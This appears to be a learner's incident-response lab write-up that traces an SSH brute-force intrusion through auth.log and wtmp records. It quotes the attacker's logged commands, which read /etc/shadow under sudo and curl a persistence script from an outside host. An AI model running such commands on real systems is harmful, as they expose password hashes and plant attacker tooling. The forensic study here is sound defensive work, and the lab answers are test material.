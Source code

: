 	3. User cyberjunkie was added to sudo group:
		○ Gives privilege escalation abilities (can run commands as root).
		○ Then Logged out

	4. Then the attacker logged back in via SSH using cyberjunkie:
		○ From IP 65.2.161.68, port 43260
		○ Password authentication was successful.
		○ SSH session opened.

	5. Commands run with root privileges via sudo:
		○ Read /etc/shadow (contains password hashes)
➜ COMMAND=/usr/bin/cat /etc/shadow
		○ Used curl to fetch a remote shell script:
➜ COMMAND=/usr/bin/curl http://raw.githubusercontent.com/montysecurity/linper/main/linper.sh




Answer to Questions:


![image](https://github.com/user-attachments/assets/237b3264-b51d-4ebb-b7e4-b9772bb16833)
![image](https://github.com/user-attachments/assets/bfacc32b-bc67-42ac-ba61-94459f5ee97f)

Task 3 Answer:

	- **The login time will be different than the authentication time, and can be found in the wtmp artifact.**

	- I need to go back to the terminal and read the wtmp file
		○ Remember that this file tracks successful logins

	- " cat wtmp "

![image](https://github.com/user-attachments/assets/f0243b1e-2d80-43ef-84c1-e8bc1cde9c61)

	- The information is in a weird format that I can't read, I'll have to use another command 'utmpdump' to read the file

	- ' utmpdump wtmp ' 

![image](https://github.com/user-attachments/assets/c694149e-07a6-437f-849b-c0f277b6d270)

	- Just like that it's all cleaned up

	- Notice at the bottom of the file the user 'root' and the source IP of interest '65.2.161.68' 

	- This occurred on 2024, March 6th, at…06:32:45
		○ Why is different than earlier? Remember that the last successful login from 'root' occurred at 06:32:44
		○ Why is wtmp one second ahead of the accepted password entries?

	- It's because wtmp tracks successful logins, but there are delays and 'accepted password' logs (like in auth.log) can be off by a couple seconds
		○ The difference is usually not big

Task 6 Answer:

	- To find the answer I can navigate to the actual MITRE ATT&CK website
		○ attack.mitre.org
